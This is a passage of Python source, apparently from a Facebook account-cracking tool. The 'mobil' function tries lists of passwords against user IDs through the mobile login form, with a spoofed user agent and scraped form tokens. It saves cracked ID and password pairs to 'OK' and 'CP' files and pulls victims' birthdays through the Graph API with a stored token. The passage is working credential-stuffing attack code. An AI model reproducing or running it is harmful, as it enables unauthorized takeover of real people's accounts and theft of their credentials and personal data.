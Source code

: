 		else:
			continue

	loop += 1
	
def mobil(uid, fii):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = "nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+"
	global ok, cp, loop, token, cookie
	sys.stdout.write(f"\r{P}[•] >>>>>> {B} {loop}/{len(id)} {I}OK : {B}{len(ok)} {K}CP : {B}{len(cp)}");sys.stdout.flush()
	for pw in fii:
		fii_gtg = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://mobile.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "mbasic.facebook.com", "referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://mobile.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:fii_gtg.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		fii_gtg.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		deku = ses.post("https://mobile.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=fii_gtg)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print(f"\r{B} |----> {I}{uid}•{pw}")
			ok.append("%s|%s"%(uid, pw))
			open("OK/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token  = open('login/token.json','r').read()
				cookie = {'cookie':open('login/cookie.json','r').read()}
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token),cookies=cookie).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print(f"\r{B} |----> {K}{uid}•{pw}•{day} {month} {year}")
					cp.append("%s|%s"%(uid, pw))
					open("CP/%s.json"%(tanggal),"a").write("%s|%s|%s %s %s\n"%(uid, pw, day, month, year))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			cek_log(uid,pw,ua)
			print(f"\r{B} |----> {K}{uid}•{pw}")
			cp.append("%s|%s"%(uid, pw))